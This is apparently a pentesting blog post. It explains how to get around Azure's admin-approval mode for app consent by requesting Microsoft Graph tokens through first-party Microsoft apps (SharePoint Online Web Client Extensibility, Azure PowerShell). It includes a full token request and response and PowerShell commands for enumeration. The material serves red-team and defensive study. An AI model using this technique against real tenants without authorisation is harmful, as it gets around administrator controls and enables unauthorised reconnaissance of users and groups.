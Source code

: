 ```yaml
---

layout: post
title: Bypass Azure Admin Approval Mode for User Consent Workflow When Enumerating
lang: en
lang-ref: bypass-azure-admin-approval-mode-enumeration
categories: [Windows security, Azure, Microsoft]
tags: [windows, cybersecurity, azure, microsoft, red team, pentesting]

---
```


# Bypass Azure Admin Approval Mode for User Consent Workflow When Enumerating

In this short blog post we will see a trick/technique to enumerate an Azure environment when the User App Consent Workflow is blocked and it is necessary to request permission to an administrator. After the administrator approves the consent the user can user the application.

When this mode is set an we attempt to enumerate groups/users/anything else when Microsoft Graph or similar we will get a prompt to request an administrator to approve our use of the application. 

With this technique we leverage Microsoft well-known apps that has some permissions by default. Because they already has some permissions granted we can take advantage of them to get a token with the scopes we want, for example, *Group.Read.All* [https://learn.microsoft.com/en-us/graph/permissions-reference#groupreadall](https://learn.microsoft.com/en-us/graph/permissions-reference#groupreadall).

## The Idea

During an Azure pentest, it's likely that the tenant has administrator approval mode enabled for external application permissions, hindering enumeration tasks—for example, through Microsoft Graph.

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203825.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203825.png){:target="_blank"}

When you try to enumerate groups, users, and other elements with Microsoft Graph, you'll find that it's not possible when using Microsoft's default application.

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203833.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203833.png){:target="_blank"}

## Abusing well-known Microsoft Apps with permissions already granted

However, it's possible to leverage other default Microsoft applications, such as **SharePoint Online Web Client Extensibility** (08e18876-6177-487e-b8b5-cf950c1e598c), since it has certain permissions granted by default. It has the default permissions that can be seen in the following image. I think that there are other applications available, but I have been using **SharePoint Online Web Client Extensibility**. 

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204007.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204007.png){:target="_blank"}

Take a look at your tenant and you will find this application owned by Microsoft and with the permissions shown granted.

We can then issue a token using this application and request, for example, *https://graph.microsoft.com/.default* scope.

Here is an example request and response.

```
POST /[REDACTED]/oauth2/v2.0/token HTTP/2
Host: login.microsoftonline.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 1544
Referer: [REDACTED]
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers

client_id=08e18876-6177-487e-b8b5-cf950c1e598c&scope=https://graph.microsoft.com/.default&grant_type=refresh_token&client_info=1&x-client-SKU=msal.js.browser&x-client-VER=3.23.0&x-ms-lib-capability=retry-after, h429&x-client-current-telemetry=5|61,0,,,|,&x-client-last-telemetry=5|1|61,[REDACTED]|post_request_failed|1,0&client-request-id=[REDACTED]&refresh_token=[REDACTED]


HTTP/2 200 OK
Cache-Control: no-store, no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Access-Control-Allow-Origin: *
Access-Control-Expose-Headers: Content-Length,Content-Encoding,x-ms-request-id,x-ms-srs
Access-Control-Allow-Methods: POST, OPTIONS
P3p: CP="DSP CUR OTPi IND OTRi ONL FIN"
X-Ms-Request-Id: [REDACTED]
X-Ms-Ests-Server: 2.1.19005.9 - NEULR1 ProdSlices
X-Ms-Clitelem: 1,0,0,112993681.7929,
X-Ms-Srs: 1.P
Referrer-Policy: strict-origin-when-cross-origin
X-Xss-Protection: 0
Set-Cookie: [REDACTED]
Set-Cookie: [REDACTED]
Set-Cookie: [REDACTED]
Date: Thu, 10 Oct 2024 15:37:52 GMT
Content-Length: 6583

{"token_type":"Bearer","scope":"email openid profile https://graph.microsoft.com/AppCatalog.Read.All https://graph.microsoft.com/AppCatalog.Submit https://graph.microsoft.com/Calendars.Read https://graph.microsoft.com/Channel.ReadBasic.All https://graph.microsoft.com/EduAssignments.ReadBasic https://graph.microsoft.com/EduRoster.ReadBasic https://graph.microsoft.com/Files.Read https://graph.microsoft.com/Files.Read.All https://graph.microsoft.com/Group.Read.All https://graph.microsoft.com/Group-Conversation.ReadWrite.All https://graph.microsoft.com/GroupMember.Read.All https://graph.microsoft.com/InformationProtectionPolicy.Read https://graph.microsoft.com/People.Read https://graph.microsoft.com/People.Read.All https://graph.microsoft.com/Presence.Read.All https://graph.microsoft.com/Tasks.ReadWrite https://graph.microsoft.com/Team.ReadBasic.All https://graph.microsoft.com/TeamsAppInstallation.ReadWriteForTeam https://graph.microsoft.com/TeamsAppInstallation.ReadWriteSelfForTeam https://graph.microsoft.com/User.Read https://graph.microsoft.com/User.ReadBasic.All https://graph.microsoft.com/.default","expires_in":5149,"ext_expires_in":5149,"access_token":"ey[REDACTED]","refresh_token":"[REDACTED]","refresh_token_expires_in":319000,"id_token":"[REDACTED]","client_info":"ey[REDACTED]"}
```

With the received token we can then connect to *Microsoft Graph* and take advantage of that permissions.

```
PS C:\> $access_token = "ey..."
PS C:\> $secure_access_token = ConvertTo-SecureString $access_token -AsPlainText -Force
PS C:\> Connect-MgGrapth -AccessToken $secure_access_token
PS C:\> Get-MgContext | select -ExpandProperty Scopes
[...]
```

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204249.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204249.png){:target="_blank"}

## Using Azure PowerShell

Another possibility, thanks to Bene ([https://x.com/m0lto_bene](https://x.com/m0lto_bene)), who pointed this out on Twitter: [https://x.com/PedroGabaldon/status/1844817792891039907](https://x.com/PedroGabaldon/status/1844817792891039907), is using **Azure PowerShell** [1950a258-227b-4e31-a9cf-717495945fc2](https://learn.microsoft.com/en-us/troubleshoot/entra/entra-id/governance/verify-first-party-apps-sign-in#application-ids-of-commonly-used-microsoft-applications).

Using this application you can also obtain a Microsoft Graph token. Although, the scope is lesser than when using **SharePoint Online Web Client Extensibility**.

To connect to Microsoft Graph with using a token issued using **Azure PowerShell** just run `Connect-AzAccount; Connect-MgGraph -AccessToken (Get-AzAccessToken -ResourceTypeName MSGraph -AsSecureString).Token`. 

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/GbJq5naWAAUxs2i.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/GbJq5naWAAUxs2i.png){:target="_blank"}

The avaivle scope is shown in the figure below.

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/2024-11-16 19_49_54-Window.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/2024-11-16 19_49_54-Window.png){:target="_blank"}


And in this way, we can now continue with the enumeration tasks 😜.
